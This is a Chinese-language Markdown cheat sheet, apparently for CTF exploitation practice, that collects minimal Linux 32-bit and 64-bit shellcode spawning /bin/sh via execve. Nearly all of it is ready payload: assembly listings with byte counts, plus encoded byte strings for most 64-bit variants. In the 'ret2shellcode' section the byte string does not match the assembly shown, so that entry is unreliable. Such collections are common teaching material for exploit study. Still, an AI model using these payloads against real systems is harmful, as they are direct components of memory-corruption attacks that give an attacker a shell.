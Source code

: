 # Linux ShellCode总结

在寄存器都是非理想值情况下(shellcode可根据环境具体触发时寄存器的值做长度调整)，本着最优通用的原则，整理了Linux下32位和64位最短通用shellcode的编写。

## 32位

### 有"\x00"最短 20 byte

```assembly
xor ecx,ecx               
mul ecx                   
mov al,0xb                
push 0x68732f             
push 0x6e69622f           
mov ebx,esp               
int 0x80
```

### 无"\x00"最短 21 byte

```assembly
xor ecx,ecx
mul ecx
push eax
mov al,0xb
push 0x68732f2f   
push 0x6e69622f   
mov ebx,esp
int 0x80
```

### 标准shellcode 23 byte

```assembly
xor ecx,ecx
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
xor eax,eax
mov al,0xB
int 0x80
```

### 此外

```assembly
push 0x68732f	;push '/sh'
push 0x6e69622f	;push '/bin'
mov ebx, esp	;ebx='/bin/sh'
xor edx, edx	;edx=0
xor ecx, ecx	;ecx=0
mov eax, 0xb	;eax=0xb
int 0x80
```

## 64位

### 有"\x00"最短 22 byte

```assembly
xor rsi,rsi
mul esi
mov rbx,0x68732f6e69622f
push rbx
push rsp
pop rdi
mov al, 0x3b
syscall
# shellcode = b'H1\xf6\xf7\xe6H\xbb/bin/sh\x00ST_\xb0;\x0f\x05'
```

### 无"\x00" 最短23 byte

```assembly
xor rsi,rsi
mul esi
push rax
mov rbx,0x68732f2f6e69622f
push rbx
push rsp
pop rdi
mov al, 0x3b
syscall
# shellcode = b'H1\xf6\xf7\xe6PH\xbb/bin//shST_\xb0;\x0f\x05'
```

23 byte的另一种写法：

```assembly
xor    esi, esi
movabs rbx, 0x68732f2f6e69622f
push   rsi
push   rbx
push   rsp
pop    rdi
push   0x3b
pop    rax
xor    edx, edx
syscall

# shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
# shellcode = b'1\xf6H\xbb/bin//shVST_j;X1\xd2\x0f\x05'
```

### 标准shellcode 31 byte

```assembly
xor    rdi,rdi
xor    rsi,rsi
xor    rdx,rdx
xor    rax,rax
push   rax
mov rbx,0x68732f2f6e69622f
push   rbx
mov    rdi,rsp
mov    al,0x3b
syscall
# shellcode = b'H1\xffH1\xf6H1\xd2H1\xc0PH\xbb/bin//shSH\x89\xe7\xb0;\x0f\x05'
```

### ret2shellcode 22byte

```assembly
shellcode = '''
xor rax,rax
xor rdi,rdi
mov rdi ,0x68732f6e69622f
push rdi              
push rsp                 
pop rdi
xor rsi,rsi
xor rdx,rdx
push 0x3b   
pop rax
syscall
'''
# shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05'
```

### 其它 34byte

```assembly
xor    rax, rax
add    rax, 0x3b
xor    rdi, rdi
push   rdi
movabs rdi, 0x68732f2f6e69622f
push   rdi
lea    rdi, [rsp]
xor    rsi, rsi
xor    rdx, rdx
syscall
# shellcode = b'\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05'
```



### 

